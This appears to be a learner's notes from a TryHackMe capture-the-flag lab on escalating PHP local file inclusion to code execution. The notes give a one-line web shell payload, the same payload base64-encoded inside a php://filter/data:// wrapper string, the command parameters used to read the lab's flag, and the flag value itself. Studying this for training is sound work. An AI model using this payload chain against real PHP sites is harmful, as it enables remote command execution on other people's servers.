 

## LFI2RCE - wrappers

#### PHP Wrappers

PHP wrappers can also be used not only for reading files but also for code execution. The key here is the `php://filter` stream wrapper, which enables file transformations on the fly. Take the PHP base64 filter as an example. This method allows attackers to execute arbitrary code on the server using a base64-encoded payload. 

For example, go to [http://MACHINE_IP/playground.php](http://machine_ip/playground.php)[](http://machine_ip/playground.php).

We will use the PHP code 
```php
<?php system($_GET['cmd']); echo 'Shell done!'; ?>

# returns warnings
```
as our payload. The value of the payload, when encoded to base64, will be 
```
# need to use BurpSuite to work, send request > Repeater

php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=whoami

&cmd=ls+-l

/flags/

&cmd=ls+-l+flags

cd3c67e5079de2700af6cea0a405f9cc.txt

# burp
&cmd=cat+flags/cd3c67e5079de2700af6cea0a405f9cc.txt


THM{fl4g_cd3c67e5079de2700af6cea0a405f9cc}

&cmd=cat flags

Y2F0IGZsYWdz
cat%20flags

IP/playground.php?page=
```

|              |                  |                                                                      |
| ------------ | ---------------- | -------------------------------------------------------------------- |
| **Position** | **Field**        | **Value**                                                            |
| 1            | Protocol Wrapper | php://filter                                                         |
| 2            | Filter           | convert.base64-decode                                                |
| 3            | Resource Type    | resource=                                                            |
| 4            | Data Type        | data://plain/text,                                                   |
| 5            | Encoded Payload  | PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+ |
